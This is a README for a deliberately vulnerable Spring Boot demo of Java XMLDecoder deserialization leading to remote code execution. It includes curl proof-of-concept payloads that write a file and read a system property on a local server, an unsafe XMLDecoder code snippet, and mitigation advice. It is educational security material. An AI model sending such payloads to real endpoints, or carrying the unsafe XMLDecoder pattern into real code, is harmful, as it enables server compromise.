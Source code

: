 # XMLDecoder Vulnerability Demonstration

**WARNING: This application is intentionally vulnerable and is for educational purposes only. Never deploy this to production or expose it to the internet.**

## Overview

This Spring Boot application demonstrates how Java's XMLDecoder can be exploited for Remote Code Execution (RCE) attacks. XMLDecoder vulnerabilities have been responsible for some of the most severe enterprise security breaches, including critical Oracle WebLogic vulnerabilities (CVE-2017-10271, CVE-2019-2725, and others).

## What You'll Learn

- How XMLDecoder processes XML and instantiates Java objects
- The difference between safe XML parsing and dangerous deserialization
- Why XMLDecoder vulnerabilities are so devastating in enterprise environments
- How attackers can disguise malicious payloads as legitimate business data
- The importance of vulnerability chaining in real-world attacks

## The Vulnerability

XMLDecoder treats XML as **instructions for Java object construction**, not just data. When an application uses XMLDecoder to process untrusted XML input, attackers can:

- Execute arbitrary system commands
- Read/write files on the server
- Download and execute malware
- Pivot to internal network resources
- Achieve complete system compromise

## Setup Instructions

### Prerequisites
- Java 11 or higher
- Maven 3.6+

### Running the Demo

1. **Clone and build:**
   ```bash
   git clone <your-repo-url>
   cd xmldecoder-demo
   mvn clean package
   ```

2. **Start the application:**
   ```bash
   java -jar target/xmldecoder-demo-1.0.0.jar
   ```
   
   Or with Maven:
   ```bash
   mvn spring-boot:run
   ```

3. **Access the demo:**
   - Open http://localhost:8080 in your browser
   - Use the provided curl examples to test different scenarios

## Test Scenarios

### 1. Legitimate Use Case

**Export a customer object:**
```bash
curl -X POST 'http://localhost:8080/api/customer/export?name=John%20Doe&email=john@example.com&id=12345'
```

**Import the legitimate XML:**
```bash
curl -X POST http://localhost:8080/api/customer/legitimate-import \
  -H 'Content-Type: application/xml' \
  -d '[paste the XML output from export command]'
```

### 2. Safe XML Processing (for comparison)

```bash
curl -X POST http://localhost:8080/api/customer/safe-import \
  -H 'Content-Type: application/xml' \
  -d '<customer><name>John</name><email>john@example.com</email></customer>'
```

### 3. Vulnerability Demonstrations

**These examples demonstrate the vulnerability - use only in isolated test environments**

**Simple string creation:**
```bash
curl -X POST http://localhost:8080/api/customer/import \
  -H 'Content-Type: application/xml' \
  -d '<java><object class="java.lang.String"><string>Hello World</string></object></java>'
```

**File creation (proof of concept):**
```bash
curl -X POST http://localhost:8080/api/customer/import \
  -H 'Content-Type: application/xml' \
  -d '<java><object class="java.io.FileWriter"><string>test-file.txt</string><void method="write"><string>XMLDecoder was here!</string></void><void method="close"/></object></java>'
```

**System property access:**
```bash
curl -X POST http://localhost:8080/api/customer/import \
  -H 'Content-Type: application/xml' \
  -d '<java><object class="java.lang.System" method="getProperty"><string>user.name</string></object></java>'
```

## Key Learning Points

### Why XMLDecoder is Dangerous

1. **Automatic Object Instantiation:** XMLDecoder can create instances of any accessible Java class
2. **Method Execution:** It can call any public method during deserialization
3. **No Security Boundaries:** There's no concept of "safe" vs "dangerous" classes
4. **Legitimate Appearance:** Malicious payloads can be disguised as normal business data

### Safe vs. Unsafe XML Processing

**Unsafe (XMLDecoder):**
```java
XMLDecoder decoder = new XMLDecoder(inputStream);
Object obj = decoder.readObject(); // RCE vulnerability
```

**Safe (DocumentBuilder):**
```java
DocumentBuilder builder = DocumentBuilderFactory.newInstance().newDocumentBuilder();
Document doc = builder.parse(inputStream); // Just parses structure
// You control object creation
```

### Real-World Attack Scenarios

- **Enterprise SOAP APIs** processing customer data
- **Configuration import/export** functionality
- **B2B data exchange** systems
- **Admin panels** with XML file upload
- **Legacy Java applications** using XMLDecoder for persistence

## Understanding the Attack Chain

This demo also illustrates how vulnerabilities can be chained together:

1. **Initial Access** (e.g., SQL injection to get admin credentials)
2. **Privilege Escalation** (use stolen credentials to access protected endpoints)
3. **Code Execution** (exploit XMLDecoder vulnerability with malicious payload)

Each step might appear secure in isolation, but combined they create a path to total system compromise.

## Historical Context

XMLDecoder vulnerabilities have been responsible for:

- **Oracle WebLogic Server** critical vulnerabilities (CVE-2017-10271, CVE-2019-2725)
- **Massive enterprise breaches** at Fortune 500 companies
- **Nation-state attack campaigns** targeting critical infrastructure
- **Cryptocurrency mining malware** deployed on corporate servers

## Mitigation Strategies

### Immediate Actions
- **Never use XMLDecoder with untrusted input**
- **Audit existing code** for XMLDecoder usage
- **Implement input validation** and authentication on all XML endpoints

### Long-term Solutions
- **Migrate to safer serialization** (JSON, Protocol Buffers)
- **Use proper XML parsing** libraries (DOM, SAX, StAX)
- **Implement defense-in-depth** security controls
- **Regular security assessments** including manual penetration testing

## File Structure

```
src/main/java/com/example/xmldemo/
├── VulnerableXmlController.java    # Main demo controller
└── Customer.java                   # JavaBean for legitimate use case
```

## Important Security Notes

**Never deploy this code to production environments**
**Run only on isolated, local systems**
**Do not expose to external networks**
**Use firewall rules to block external access to port 8080**

## Further Reading

- [Oracle Critical Patch Updates for WebLogic](https://www.oracle.com/security-alerts/)
- [Java Deserialization Security](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)
- [XMLDecoder Security Issues](https://blog.h3xstream.com/2013/12/java-xml-decoder-deserialization.html)

## Contributing

This is an educational demonstration. If you find ways to improve the educational value or add additional test cases, please submit a pull request.

## License

This educational demonstration is provided for security research and training purposes. Use responsibly and ethically.
